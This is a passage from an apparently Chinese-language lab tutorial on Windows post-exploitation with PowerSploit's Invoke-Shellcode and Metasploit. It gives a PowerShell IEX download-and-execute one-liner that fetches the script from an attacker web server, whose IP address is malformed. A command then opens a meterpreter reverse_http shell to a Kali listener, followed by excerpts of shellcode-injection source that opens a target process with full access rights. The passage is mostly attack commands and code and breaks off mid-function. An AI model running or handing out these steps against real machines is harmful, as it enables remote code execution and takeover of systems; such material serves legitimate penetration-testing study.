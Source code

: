 ```
# 下载脚本文件
ps > IEX (New-Object Net.WebClient).DownloadString ("http://192.168.192.122.101:8000/CodeExecution/Invoke-Shellcode.ps1 ")
```
即下载服务器 Web 服务网页上的 `Invoke-Shellcode.ps1` 文件：

![图片描述](../imgs/1482390958591.png-wm.png)

接着继续在 Windows 的 PowerShell 中上运行如下命令，创建会话通道：

```
# 创建 session 会话通道
ps > Invoke-Shellcode -Payload windows/meterpreter/reverse_http -lhost 192.168.122.101 -lport 4444 -Force
```
如果一切顺利，在输入完上述命令之后，处在监听状态的 Kali Linux 中的 Msfconsole 已经建立了一个会话通道。其中 `Invoke-Shellcode.ps1` 源码的关键部分为：

```
...
...
[CmdletBinding( DefaultParameterSetName = 'RunLocal', SupportsShouldProcess = $True , ConfirmImpact = 'High')] Param (
    [ValidateNotNullOrEmpty()]
    [UInt16]
    
    # 进程的 ID 编号变量
    $ProcessID,
    
    # 参数 RunLocal 默认本地运行
    [Parameter( ParameterSetName = 'RunLocal' )]
    [ValidateNotNullOrEmpty()]
    [Byte[]]
    $Shellcode,
    
    [Switch]
    $Force = $False
)
...
...
# 函数远程注入函数关键部分
function Local:Inject-RemoteShellcode ([Int] $ProcessID)
    {
        # 打开一个句柄选择你想注入的进程，ProcessAccessFlags.All (0x001F0FFF)
        $hProcess = $OpenProcess.Invoke(0x001F0FFF, $false, $ProcessID) 
        
        # 判断上打开句柄是否成功，进程是否为空
        if (!$hProcess)
```